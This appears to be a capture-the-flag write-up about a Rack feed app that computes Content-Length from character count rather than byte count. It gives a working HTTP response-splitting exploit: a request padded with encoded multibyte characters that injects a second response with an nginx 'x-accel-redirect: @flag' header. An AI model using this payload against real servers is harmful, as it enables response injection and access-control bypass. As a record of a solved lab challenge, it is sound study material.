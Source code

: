 # Details

the Rack app at `feed/config.ru` when calculating the response size (`Content-Length` header) uses `body.size` instead of `body.bytesize`, the first is unicode aware and would return the count of characters not size.

```
irb(main):001> "💎".size
=> 1
irb(main):002> "💎".bytesize
=> 4
irb(main):003> 
```

from there you can inject a secondary controlled response in the connection, the second piece is to return this header to nginx, so that it evaluates the -normally- unreachable `@flag` named location:

```http
x-accel-redirect: @flag
```

exploit:

```http
GET /fortify/feed?style=%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80%CF%80HTTP/1.1+200+OK%0d%0aContent-Length:+103%0d%0ax-accel-redirect:+@flag%0d%0a%0d%0a HTTP/1.1
Cookie: client_id=dc72b59e82c5bd59b495aaa5cccee264
Host: localhost

GET /fortify/feed HTTP/1.1
Host: localhost
Cookie: client_id=dc72b59e82c5bd59b495aaa5cccee264


```
